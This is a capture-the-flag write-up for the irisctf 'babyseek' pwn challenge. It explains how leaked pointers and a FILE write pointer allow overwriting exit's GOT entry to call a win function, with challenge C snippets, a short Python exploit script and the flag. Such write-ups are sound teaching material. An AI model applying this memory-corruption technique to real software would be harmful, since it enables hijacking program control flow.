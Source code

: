 # babyseek (Binary Exploitation)
> I'll let you seek around my file as far as you want, but you can't go anywhere since it's /dev/null.

This is a slightly-more-than-baby baby pwn challenge. The binary is compiled with RELRO turned off because it's small enough that it gets full RELRO by default. It has other default protections enabled.

The challenge leaks the pointer to a `win` function which prints the flag...
```c
    printf("Your flag is located around %p.\n", win);
```
...and a pointer claiming to be into `/dev/null`.
```c
    printf("I'm currently at %p.\n", null->_IO_write_ptr);
```
The second pointer is a really pointer that points to the `_IO_write_ptr` member of a `FILE` object. This pointer actually controllers where writing to the file will attempt to write to in memory. Normally, this is a buffer holding the data to write to the file that gets flushed occasionally, which is allocated on the heap.

It takes an offset, adds it to the `_IO_write_ptr`, and then tries to write the address of the win() function to that offset, and then exit()s.
```c
    printf("Where should I seek into? ");
    scanf("%d", &pos);
    null->_IO_write_ptr += pos;

    fwrite(&super_special, sizeof(void*), 1, null); // super_special is a pointer to win
    exit(0);
```

We can exploit this program by changing the place where the pointer lands to an area of memory where a function pointer lands. One such place is the [Global Offset Table (GOT)](url), which is at a constant offset from the win function! If we set the pointer so it overwrites an useful member of the GOT, we can have the program call the win function. One easy target is `exit`, which is called write after.

We can just compute the constant offset from win to `exit@.got.plt` using gdb and then send an appropriate offset based on the two leaks.
```py
off = 8767
r.recvuntil(b"Your flag is located around ")
flag = eval(r.recvuntil(b".", drop=True).decode())
r.recvuntil(b"I'm currently at ")
loc = eval(r.recvuntil(b".", drop=True).decode())
send = flag - loc + off
r.sendline(str(send).encode())
```

```
irisctf{not_quite_fseek}
```
